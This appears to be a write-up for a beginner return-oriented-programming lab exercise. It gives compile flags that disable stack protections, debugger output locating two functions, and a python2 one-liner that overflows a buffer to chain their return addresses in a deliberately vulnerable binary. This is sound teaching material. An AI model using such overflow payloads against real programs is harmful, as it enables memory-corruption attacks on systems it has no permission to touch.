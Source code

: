 ### How to compile binary:

`gcc roplevel1.c -o roplevel1 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> x secret
0x80491bb <secret>:	0x53e58955
pwndbg> x change
0x8049186 <change>:	0x53e58955
```

### Methodolody:

Chain change() and secret() one after the other such that when the main function finishes is returning, it will return to the change function. When the change function finishes and is returning, it returns to the secret() function.

### Answer:

`python2 -c "print('A' * 20 + '\x86\x91\x04\x08\xbb\x91\x04\x08' + 'B'*20)" | ./roplevel1`

### Notes

- you have python2 and python3 installed on your system, make sure to run the exploit with python2 as python2 and python3 interpret byte strings `"\x$$"` differently as seen [here](https://stackoverflow.com/questions/60660568/overflowed-bytes-different-than-those-i-see-on-gdb)

- To ensure that the binaries are compiled and are functioning as close to what the author intended, use [checksec.rs](https://github.com/etke/checksec.rs) on the Mach-O executables (original ones) and [checksec.sh](https://github.com/slimm609/checksec.sh) on your elf executables and ensure that the security properties of both executables are as similar as possible
